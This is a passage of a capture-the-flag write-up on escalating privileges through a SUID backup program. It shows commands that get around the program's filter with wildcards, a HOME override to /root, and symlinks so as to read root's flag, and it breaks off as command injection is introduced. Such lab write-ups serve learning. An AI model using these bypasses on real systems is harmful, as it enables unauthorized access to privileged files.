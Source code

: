 **Note:** There are several methods we can use apply on the backup program in order to escalate privileges. I initially solved it using method 1 & method 2, however, after I watched [ippsec](https://www.youtube.com/watch?v=sW10TlZF62w)’s video, I found out there were other ways to escalate privileges \(methods 3, 4 & 5\).

**Method 1 — Using Wildcards**

The \* character is not filtered in the program, therefore we can use it to make a backup of the root directory.

```text
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /r**t/r**t.txt > root
```

Then use the same method to base64 decode and compress the file to view the flag.

![](https://miro.medium.com/max/629/1*F02qM-0wEgiCCrk8oS5Myw.png)

**Method 2 — Using the Home Variable**

The ~ character is not filtered either, so we can make use of it to make a backup of the root directory.

First, set the $HOME environment variable to be /root.

```text
export HOME=/root
```

Then, call the backup program with the ~ character.

```text
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 "~"
```

**Method 3— Using Symlinks**

A symbolic link is a file that points to another file. Let’s point the root.txt file to a file called alt-file.txt.

```text
tom@node:/tmp$ mkdir altdir
tom@node:/tmp$ cd altdir/
tom@node:/tmp/altdir$ ln -s /root/root.txt altfile
```

* **-s:** make symbolic links instead of hard links

Then, call the backup program with the link file.

```text
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /tmp/altdir
```

**Method 4— Command Injection**

The past three methods involved us exploiting the backup file in a way that gives us access to a privileged file. We haven’t really escalated our privileges to root. This method exploits a command injection vulnerability that will give us a shell with root privileges.
